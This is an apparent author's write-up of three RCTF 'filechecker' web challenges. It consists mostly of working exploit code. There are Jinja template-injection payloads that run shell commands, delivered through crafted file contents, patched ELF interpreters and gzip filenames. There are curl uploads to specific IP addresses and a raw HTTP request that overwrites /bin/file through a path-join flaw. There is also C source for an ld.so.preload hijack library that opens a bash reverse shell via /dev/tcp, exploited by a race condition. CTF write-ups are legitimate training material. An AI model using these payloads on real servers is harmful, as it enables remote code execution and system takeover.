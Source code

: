 ## filechecker_mini

- solved: 88/363
- flag: `RCTF{Just_A_5mall_Tr1ck_mini1i1i1__Fl4g_Y0u_gOtt777!!!}`

The server runs the file command on the uploaded file and passes the output to Flask's render_template_string. So we can do template injection as long as we control the output.

### The easiest solution

https://github.com/file/file/blob/master/tests/cmd1.testfile

https://github.com/file/file/blob/master/tests/cmd1.result

The content of the build file is as follows

```
#!/usr/cmd/{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}
```

Upload this file and you will get the flag

### Other interesting solutions

1 modify the interpreter of linux executables

```bash
cp /bin/file filetest
patchelf --set-interpreter "{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}" filetest
curl -F 'file-upload=@/mnt/d/Desktop/filetest' http://159.138.107.47:13001/
```

You can also modify the BuildID of the linux executable

2 gzip controls a file name file

```bash
touch "{{config.__class__.__init__.__globals__['os'].popen('cat \x2fflag').read()}}"
gzip \{\{config.__class__.__init__.__globals__\[\'os\'\].popen\(\'cat\ \\x2fflag\'\).read\(\)\}\}
mv \{\{config.__class__.__init__.__globals__\[\'os\'\].popen\(\'cat\ \\x2fflag\'\).read\(\)\}\}.gz 1.gz
curl -F 'file-upload=@/mnt/d/Desktop/1.gz' http://159.138.107.47:13001/
```

3 Modifying the image copyright will also take effect

There are many ways to control the command output, so I won’t go into details here

## filechecker_plus

- solved: 39/363
- flag: `RCTF{III_W4nt_Gir1Friendssssss_Thi5_Christm4ssss~~~~}`

To diff the two zips, I found out that template injection is no longer possible and the web service is running with root privileges.

```python
os.path.exists(filepath) and ".." in filepath:
```

The check for path traversal and existing file is an and. That means we can overwrite files if we don’t use '..' .

To disable directory traversal for "..", I added this logic. This is a logic error, I should replace and with or.  qwq

A small trick for os.path.join

```python
>>> import os
>>> os.path.join("/app/upload/","test")
'/app/upload/test'
>>> os.path.join("/app/upload/","/tmp/test")
'/tmp/test'
```

Now we can overwrite any file, so it is very easy to solve this challenge.

Send the following http package and you will get the flag

```
POST / HTTP/1.1
Host: 159.138.110.192:23002
Content-Length: 211
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Origin: http://159.138.110.192:23002
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuhKRbyDeYPB8r5MS
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://159.138.110.192:23002/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryuhKRbyDeYPB8r5MS
Content-Disposition: form-data; name="file-upload"; filename="/bin/file"
Content-Type: text/plain

#!/bin/bash
cat /flag
------WebKitFormBoundaryuhKRbyDeYPB8r5MS--
```

Of course you can also upload a linux executable file or overwrite index.html to get the flag.    :)

## filechecker_pro_max

- solved: 17/363
- flag: `RCTF{I_Giveeeeeee_Y0oOu_Fl4gsssss_You_G1ve_M3_GirlFriendsssssssssss}`

This time, we can’t overwrite any files. We have to get RCE only by creating new ones.

Use strace to trace what happens when the file command is executed

```bash
strace file /etc/passwd 2>&1 | grep "No such file or directory"
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/usr/lib/locale/C.UTF-8/LC_CTYPE", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
newfstatat(AT_FDCWD, "/home/liao/.magic.mgc", 0x7ffd2bb0bcd0, 0) = -1 ENOENT (No such file or directory)
newfstatat(AT_FDCWD, "/home/liao/.magic", 0x7ffd2bb0bcd0, 0) = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/magic.mgc", O_RDONLY) = -1 ENOENT (No such file or directory)
```

We can create a "/etc/ld.so.preload" file that includes "/app/upload/mylseek.so" so that the library is loaded when the server executes the `file` command.

**mylseek.c**

```c
#include <unistd.h>
#include "syscall.h"
#include <stdio.h>
#include <stdlib.h>

off_t lseek(int fd, off_t offset, int whence)
{
    remove("/etc/ld.so.preload"); //without this, the exploit would recursively load mylseek.so
    system("bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'");
#ifdef SYS__llseek
    off_t result;
    return syscall(SYS__llseek, fd, offset>>32, offset, &result, whence) ? -1 : result;
#else
    return syscall(SYS_lseek, fd, offset, whence);
#endif
}
```

gcc mylseek.c -o mylseek.so --shared -fPIC

Of course you can diy your so.     :)

**ld.so.preload**

```
/app/upload/mylseek.so
```

We then just need a race condition when both of the files are present when file is executed.

Use burpsuite's intruder module to upload these two files in multiple threads for a race condition.

mylseek.so -> /app/upload/mylseek.so

ld.so.preload -> /etc/ld.so.preload